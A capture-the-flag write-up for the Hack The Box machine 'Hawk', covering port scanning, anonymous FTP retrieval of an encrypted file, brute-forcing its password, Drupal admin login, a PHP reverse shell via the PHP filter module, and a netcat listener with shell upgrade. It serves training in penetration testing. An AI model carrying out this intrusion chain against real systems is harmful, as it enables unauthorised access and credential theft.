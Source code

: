 # Hawk writeups by Seyptoo.

[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/48/6/1543657344-capture-du-2018-12-01-10-41-55.png)](https://hackthebox.eu/)

Informations
----
    Ip : 10.10.10.102       Created : mrh4sh
    Level : Easy            Base Points : 30
    
Nmap Scan
----
**We have 4 open ports, 21, 22, 80 and 8082.**
The 21 is for the FTP server, 22 for the SSH server, for the 80 HTTTP server (Drupal CMS) and finally for the 8082 for the 
database.

    root@Seyptoo:~/writeup/hawk# nmap -A -sT -p 1-65535 -oA nmap/hawk 10.10.10.102 -v
    Starting Nmap 7.01 ( https://nmap.org ) at 2018-12-01 10:50 CET
    NSE: Loaded 132 scripts for scanning.
    NSE: Script Pre-scanning.
    Initiating NSE at 10:50
    Completed NSE at 10:50, 0.00s elapsed
    Initiating NSE at 10:50
    Completed NSE at 10:50, 0.00s elapsed
    Initiating Ping Scan at 10:50
    Scanning 10.10.10.102 [4 ports]
    Completed Ping Scan at 10:50, 0.22s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 10:50
    Completed Parallel DNS resolution of 1 host. at 10:50, 0.00s elapsed
    Initiating Connect Scan at 10:50
    Scanning 10.10.10.102 [65535 ports]
    Discovered open port 21/tcp on 10.10.10.102
    Discovered open port 22/tcp on 10.10.10.102
    Discovered open port 80/tcp on 10.10.10.102
    Discovered open port 8082/tcp on 10.10.10.102
    
Check Version
----
[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/48/6/1543658376-capture-du-2018-12-01-10-59-23.png)](https://hackthebox.eu)
**We can see that we have 2 HTTP 
servers and an FTP server which we can 
access anonymously.**

FTP Access and transfert
----
**We have access to the FTP server, we can see that there is a hidden file and we transfer it to our physical machine.**
The file this name .drupal.txt.enc, it is probably a password to access the CMS drupal. :)

    root@Seyptoo:~/writeup/hawk# ftp 10.10.10.102
    Connected to 10.10.10.102.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.102:root): anonymous
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
    226 Directory send OK.
    ftp> cd messages
    250 Directory successfully changed.
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    226 Directory send OK.
    ftp> ls -alv
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 .
    drwxr-xr-x    3 ftp      ftp          4096 Jun 16 22:14 ..
    -rw-r--r--    1 ftp      ftp           240 Jun 16 22:21 .drupal.txt.enc
    226 Directory send OK.
    ftp> mget .drupal.txt.enc
    mget .drupal.txt.enc? 
    200 PORT command successful. Consider using PASV.
    150 Opening BINARY mode data connection for .drupal.txt.enc (240 bytes).
    226 Transfer complete.
    240 bytes received in 0.00 secs (513.9802 kB/s)
    ftp> 

Cracking file
----
Everything is encrypted, we will use a tool to crack this file.

    root@Seyptoo:~/writeup/hawk# cat .drupal.txt.enc 
    U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJb
    CmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQz
    QUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfy
    t4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=
    root@Seyptoo:~/writeup/hawk# cat .drupal.txt.enc|base64 -d
    Salted__kY ԓi-6�l���7Z����>{�$�p����5 �2[
    ���������8?�sW�j#T$3AG�,f	���Z\ja�>>G6
    �.��E���ÐV��V@�����ɗ���4�����@�w�xZ��Ni��PtF��`)
    root@Seyptoo:~/writeup/hawk#
The file is in base64, we are going to the tools on github.

    root@Seyptoo:~/writeup/hawk# git clone https://github.com/deltaclock/go-openssl-bruteforce.git
    Clonage dans 'go-openssl-bruteforce'...
    remote: Enumerating objects: 31, done.
    remote: Total 31 (delta 0), reused 0 (delta 0), pack-reused 31
    Dépaquetage des objets: 100% (31/31), fait.
    Vérification de la connectivité... fait.
    root@Seyptoo:~/writeup/hawk# cd go-openssl-bruteforce/
    root@Seyptoo:~/writeup/hawk/go-openssl-bruteforce# ls
    brute.go  openssl-brute  README.md
    root@Seyptoo:~/writeup/hawk/go-openssl-bruteforce# ./openssl-brute -file ../drupal.txt.enc
    Bruteforcing Started
    CRACKED!! Results in file [ result-aes256 ]
    --------------------------------------------------
    Found password [ friends ] using [ aes256 ] algorithm!!
    --------------------------------------------------
    Daniel,

    Following the password for the portal:

    "PencilKeyboardScanner123"

    Please let us know when the portal is ready.

    Kind Regards,

    IT department

    --------------------------------------------------
The password has been cracked successfully, so we can connect to the CMS (drupal).

Website reverse shell
----
Try a default user, like admin and it should do the trick to connect to the CMS.
> User : **admin**<br/>
Password : **PencilKeyboardScanner123**

[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/48/6/1543661418-capture-du-2018-12-01-11-50-07.png)](https://hackthebox.eu)

Once you are logged in you have to go to modules, and activate **PHP filter**.<br/>
Once you have activated the module go to **Content, add content, Basic page, and put your PHP code**, go take the code pentestmonkey. :)

AND BIM !!!

    root@Seyptoo:~/writeup/hawk/go-openssl-bruteforce# nc -lvp 1234
    Listening on [0.0.0.0] (family 0, port 1234)
    Connection from [10.10.10.102] port 1234 [tcp/*] accepted (family 2, sport 48804)
    Linux hawk 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
     11:09:02 up 29 min,  2 users,  load average: 0.05, 0.02, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    daniel   pts/0    10.10.15.190     10:47    5:31   0.14s  0.14s -python3
    daniel   pts/2    10.10.15.190     11:04    4:13   0.03s  0.03s -python3
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ python3 -c "import pty;pty.spawn('/bin/bash')"
    www-data@hawk:/$
    
